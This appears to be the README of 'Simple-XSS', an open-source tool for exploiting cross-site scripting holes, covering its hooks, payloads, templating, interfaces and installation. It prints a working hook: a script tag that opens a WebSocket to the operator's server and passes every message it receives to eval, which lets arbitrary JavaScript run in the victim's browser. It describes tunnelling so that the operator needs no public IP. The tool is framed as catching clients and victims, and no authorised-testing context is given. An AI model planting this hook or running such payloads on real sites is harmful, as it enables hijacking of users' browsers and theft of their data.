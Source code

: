 # Simple-XSS

<p align="center">
  <img src="res/big_logo.png"  alt="logo"/>
</p>

<a href="https://github.com/CrazyProger1/Simple-XSS/releases/download/V0.1/Simple-XSS-Windows-x64.zip"><img alt="GitHub all releases" src="https://img.shields.io/github/downloads/CrazyProger1/Simple-XSS/total"></a>
<a href="https://github.com/CrazyProger1/Simple-XSS/blob/master/LICENSE"><img alt="GitHub" src="https://img.shields.io/github/license/CrazyProger1/Simple-XSS"></a>
<a href="https://github.com/CrazyProger1/Simple-XSS/releases/latest"><img alt="GitHub release (latest by date)" src="https://img.shields.io/github/v/release/CrazyProger1/Simple-XSS"></a>

Simple-XSS is a multiplatform cross-site scripting (XSS) vulnerability exploitation tool. This application will help you
create a hook that can easily
and reliably catch a client by downloading a payload to their browser and executing it. You don't even need a white IP
for this because the application will take care of tunneling the connection between you and the victim.

## Usage

> Use `--help` argument to get help.
![commandline help](docs/help.png)

### Hook

> _Hooks folder: [hooks](hooks)_

**Hook** is an HTML code snippet designed to be embedded in a vulnerable XSS form. It looks like:

```html
<script>c = new WebSocket('{{environment.public_url}}');c.onmessage = (e) => eval(e.data);</script>
```

**NOTE:** _As you can see here is a built-in variable: {{environment.public_url}}. You can read more about
this below._

This is a [default](hooks/default) hook. When it's embedded in the vulnerable form, it downloads the JS
code ([payload](#payload)) via
WebSockets
protocol from the server and
executes it using [eval](https://developer.mozilla.org/ru/docs/Web/JavaScript/Reference/Global_Objects/eval).

Hook has the following structure:

```
|
+-- hook_folder
    |
    +-- hook.html
    |
    +-- package.toml
```

**hook.html** - main file, contains HTML code that can be embedded in vulnerable form.

**package.toml** - metadata file, contains data about hook such as name, description, author and version.

### Payload

> _Payloads folder: [payloads](payloads)_

**Payload** is an arbitrary JS code that loaded by hook on a vulnerable page and executed
with [eval](https://developer.mozilla.org/ru/docs/Web/JavaScript/Reference/Global_Objects/eval).

Payload has the following structure:

```
|
+-- payload_folder
    |
    +-- payload.js
    |
    +-- package.toml
    |
    +-- init.py
```

**payload.js** - main file, contains arbitrary JS code.

**package.toml** - metadata file, contains data about payload such as name, description, author and version.

**init.py** - python file, imported when loading payload. Allows you to interact with the client side of payload
(payload.js) via WebSockets protocol.

### Templating

**Built-in objects** is an objects passed into hook & payload main files
using [Jinja](https://jinja.palletsprojects.com/)
templating engine. It contains additional information that may be needed when loading a hook or payload.

#### Environment

- **public_url** - public address of WebSocket server

#### Metadata

**package** - hook or payload

- **name** - name of package
- **author** - package author
- **version** - version of package
- **description** - package description

If you need to use some variable, just use such construction: {{object.variable}}.
For example:

```
alert('{{metadata.name}} - V{{metadata.version}}')
```

The provided payload code snippet will display an alert dialog showcasing the name and version of the payload.

## Interface

> _Thanks to the use of the [Python Flet framework](https://flet.dev/), the application works equally well both in the
browser and in the graphical interface._

### Graphical

![GUI](docs/GUI.png)

### WEB

![WEB](docs/WEB.png)

### Command-Line

![CLI](docs/CLI.png)

## Installation

### Windows

First you need to clone the repository:

```commandline
git clone https://github.com/CrazyProger1/Simple-XSS
```

Then go to the folder & install requirements:

```commandline
cd Simple-XSS
pip install -r windows_requirements.txt
```

And finally you can run it:

```commandline
python main.py
```

### Linux

First you need to clone the repository:

```commandline
git clone https://github.com/CrazyProger1/Simple-XSS
```

Then go to the folder & install requirements:

```commandline
cd Simple-XSS
pip install -r linux_requirements.txt
```

And finally you can run it:

```commandline
python main.py
```


## License

Simple-XSS is released under the MIT License. See the bundled [LICENSE](LICENSE) file for details.
